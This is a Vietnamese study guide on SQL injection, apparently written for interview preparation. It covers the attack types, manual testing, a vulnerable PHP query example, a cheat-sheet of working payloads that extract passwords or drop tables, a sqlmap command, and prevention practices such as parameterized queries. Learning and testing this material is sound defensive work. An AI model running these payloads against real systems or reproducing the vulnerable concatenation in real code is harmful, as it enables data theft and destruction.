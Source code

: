 # 1) Định nghĩa ngắn

**SQL Injection (SQLi)** là lỗi do ứng dụng chèn (concatenate) dữ liệu đầu vào không tin cậy trực tiếp vào câu lệnh SQL, cho phép attacker thay đổi cấu trúc truy vấn và đọc/sửa/xóa dữ liệu, hoặc thậm chí chạy lệnh hệ điều hành (tuỳ DB/driver).


# 2) Các dạng chính (với ý tưởng cơ bản)

1. **Error-based SQLi**

   * Kích thích DB trả lỗi chứa dữ liệu (vd: `UNION`/cast gây lỗi) để rút thông tin.
2. **Union-based SQLi**

   * Dùng `UNION SELECT` để nối kết quả do attacker kiểm soát vào kết quả hợp lệ.
3. **Boolean-based (Blind) SQLi**

   * Kiểm tra điều kiện true/false bằng cách quan sát khác biệt (content, status) — không có lỗi/nhãn rõ.
4. **Time-based (Blind) SQLi**

   * Dùng hàm sleep/delay (`SLEEP(5)`, `pg_sleep(5)`) để đo thời gian phản hồi và dò dữ liệu bit-by-bit.
5. **Stacked queries** (nhiều DBMS hỗ trợ: MS SQL)

   * Gửi nhiều câu lệnh trong một request (`; DROP TABLE ...`) — nhiều DB forbid điều này trong prepared statements.
6. **Out-of-band (OOB) SQLi**

   * Khi DB có thể thực hiện request bên ngoài (DNS/HTTP) để exfiltrate dữ liệu.
7. **Second-order SQLi**

   * Dữ liệu độc hại được lưu trước (ví dụ trong DB), sau đó được sử dụng không lọc ở điểm sau, gây injection.


# 3) Cách nhận biết / test nhanh (manual)

* Thử ký tự đặc biệt: `' " -- ; /*` xem app phản ứng (lỗi, khác nội dung).
* Thử điều kiện boolean trong parameter: `id=1 AND 1=1` vs `id=1 AND 1=2` → quan sát khác biệt.
* Thử `UNION SELECT` (bắt đầu từ 1 cột → tăng cột: `UNION SELECT NULL` ... tìm số cột).
* Kiểm tra phản hồi thời gian: thêm payload gây delay để phát hiện time-based blind.
* Tìm lỗi DB (stack traces) trong response.
* Sử dụng proxy (Burp) để thử payloads và xem responses chi tiết.


# 4) Ví dụ minh hoạ (an toàn, để hiểu cơ chế)

Giả sử ứng dụng thực hiện (vulnerable) trong PHP:

```sql
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];
```

* Nếu attacker gửi `?id=1 OR 1=1` → câu SQL thành:
  `SELECT * FROM users WHERE id = 1 OR 1=1` => trả về toàn bộ users.

Union-based example (để trích cột):

* `?id=1 UNION SELECT username, password FROM users --`
  (Phải đúng số cột & kiểu dữ liệu.)

Boolean blind example:

* `?id=1 AND (SELECT SUBSTRING(password,1,1) FROM users WHERE id=1) = 'a'`
  → nếu page khác khi điều kiện đúng → suy ra ký tự.

Time-based example (MySQL):

* `?id=1 AND IF(SUBSTR((SELECT password FROM users WHERE id=1),1,1)='a', SLEEP(5), 0)`
  → nếu response chậm 5s → ký tự là 'a'.


# 5) Một số payload tham khảo (cheat-sheet, dùng trong lab)

* Basic test: `' OR '1'='1`
* Error-based probe: `' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- `
* Union probe: `1 UNION SELECT NULL,NULL,... -- ` (tăng số NULL theo số cột)
* Boolean blind: `1 AND SUBSTRING((SELECT database()),1,1)='a'`
* Time-based (MySQL): `1 AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)`
* MSSQL sleep: `; IF (SUBSTRING((SELECT TOP 1 password FROM users),1,1)='a') WAITFOR DELAY '00:00:05'--`

> **Ghi chú:** payloads phức tạp dễ bị block; dùng Burp Intruder hoặc sqlmap để tự động hóa trong lab.


# 6) Dò tự động — công cụ tiêu biểu

* **sqlmap**: tự động hóa discovery + exploitation. Ví dụ (lab/target được phép):

  ```
  sqlmap -u "http://target/vuln.php?id=1" --risk=3 --level=5 --dbs
  ```
* **Burp Suite** (Intruder/Repeater) + wordlists/custom payloads.
* **Nikto**, **Nmap scripts** cho reconnaissance.


# 7) Phòng ngừa (best practices — phải nắm cho phỏng vấn)

1. **Prepared statements / parameterized queries** — luôn dùng (PDO, prepared statement, ORM).
2. **Use of ORMs** with parameter binding (nhưng vẫn cần kiểm tra chỗ raw SQL).
3. **Input validation & allowlist** — validate type/length/format; nhưng không dùng validation thay cho parameterized queries.
4. **Least privilege DB user** — web app chỉ có quyền cần thiết (không dùng root).
5. **Escaping / encoding** chỉ như phương án phụ, không thay cho parameterized queries.
6. **Stored procedures** cũng phải dùng parameter binding; tránh concat SQL trong SP.
7. **WAF / IPS** là lớp phòng thủ bổ sung (không thay cho code đúng).
8. **Error handling**: hide DB error details (no stack traces to users).
9. **Logging & monitoring**: log suspicious patterns, rate-limit, alert.
10. **Dependency & framework patching**: cập nhật driver/DB libraries.


# 8) Checklist kiểm thử/patch (quick)

*  Tìm mọi input có thể điều khiển truy vấn (params, headers, cookies, body).
*  Thử các loại payloads: error, union, boolean, time-based.
*  Kiểm tra multi-byte/encoding (UTF-8), bypass filters.
*  Kiểm tra stored/second-order injection (input lưu -> dùng sau).
*  Kiểm tra quyền DB: có thể đọc `information_schema`? có thể ghi/xóa?
*  Xác minh fix: replace vulnerable code bằng prepared statements + viết unit/integration tests.


# 9) Tài liệu/nguồn ôn (khuyến nghị)

* OWASP SQL Injection Prevention Cheat Sheet.
* PortSwigger Labs (Web Security Academy) — practice labs.
* sqlmap docs & Burp Suite Academy.
